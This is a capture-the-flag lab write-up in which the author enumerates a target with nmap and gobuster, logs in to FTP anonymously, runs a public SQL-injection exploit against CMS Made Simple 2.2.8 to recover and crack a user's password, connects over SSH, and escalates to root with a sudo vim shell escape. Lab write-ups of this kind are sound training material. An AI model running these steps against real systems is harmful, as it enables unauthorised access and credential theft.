 **Tristan Gomez**


To begin the challenge, I ran a classic nmap scan using the -sV flag to get version numbers of services running on open ports.
```
└─$ sudo nmap -sV 10.10.35.175
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-17 14:27 PDT
Nmap scan report for 10.10.35.175
Host is up (0.19s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


Looks like there's ftp running, let's try to login with `anonymous:password` because it's easy, low-hanging fruit.
```
ftp> open 10.10.210.174
Connected to 10.10.210.174.
220 (vsFTPd 3.0.3)
Name (10.10.210.174:gomez22): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cat pub
?Invalid command
ftp> get pub
local: pub remote: pub
200 PORT command successful. Consider using PASV.
550 Failed to open file.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (48.5503 kB/s)
```

We seem to have found `ForMitch.txt`, let's see what is says!
```
└─$ cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Hmm, so we'll keep it in mind that `mitch` has a weak password.

Let's perform a gobuster scan to see what webpages we can find.
```
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,js -u http://10.10.210.174
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.210.174
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt,js
[+] Timeout:                 10s
===============================================================
2021/12/20 14:54:49 Starting gobuster in directory enumeration mode
===============================================================
/.hta.js              (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 296]
/.hta.html            (Status: 403) [Size: 297]
/.hta.txt             (Status: 403) [Size: 296]
/.htpasswd.js         (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htaccess.html       (Status: 403) [Size: 302]
/.htpasswd.html       (Status: 403) [Size: 302]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.htaccess.js         (Status: 403) [Size: 300]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.210.174/simple/]
```

Gobuster found /simple. Navigating there I find a CMS page with the version number and a link to a login page. -> `CMS Made Simple</a> version 2.2.8</p>`.


Let's check searchsploit to see if we can find any helpful exploit scripts.
```
└─$ searchsploit cms 2.2.8
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Bolt CMS < 3.6.2 - Cross-Site Scripting                                          | php/webapps/46014.txt
CMS Made Simple < 2.2.10 - SQL Injection                                         | php/webapps/46635.py
Concrete CMS < 5.5.21 - Multiple Vulnerabilities                                 | php/webapps/37225.pl
Concrete5 CMS < 5.4.2.1 - Multiple Vulnerabilities                               | php/webapps/17925.txt
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                          | php/webapps/44194.py
DeDeCMS < 5.7-sp1 - Remote File Inclusion                                        | php/webapps/37423.txt
Kirby CMS < 2.5.7 - Cross-Site Scripting                                         | php/webapps/43140.txt
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                                   | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                                   | php/webapps/44646.txt
Mura CMS < 6.2 - Server-Side Request Forgery / XML External Entity Injection     | cfm/webapps/43045.txt
Redaxo CMS Mediapool Addon < 5.5.1 - Arbitrary File Upload                       | php/webapps/44891.txt
zKup CMS 2.0 < 2.3 - Arbitrary File Upload                                       | php/webapps/5220.php
zKup CMS 2.0 < 2.3 - Remote Add Admin                                            | php/webapps/5219.php
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

BINGO! `CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py`. I copied the script into my working directory. I had to change its permissions to make it executable. I also had to add parentheses to the print statements to make this script work with Python3.

`Python3 *.py -u http://10.10.210.74` results...
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Try: secret

```

Using the credentials found (`mitch:secret`), let's ssh in.
`ssh mitch@10.10.210.174 -p 2222`

```
$ cat user.txt
G00d j0b, keep up!
```

Now that we have the user flag, we need to privesc to get the root flag.
Let's check the permissions for this user.
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```
Hmm, we can run `vim` as root with no password. Let's consult gtfobins to see how we can abuse this.

`gtfobins`
```
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```

Running `sudo vim -c ':!/bin/sh'` we become the root user! Lets grab the root flag and finish this challenge.
```
# cat /root/root.txt
W3ll d0n3. You made it!
```
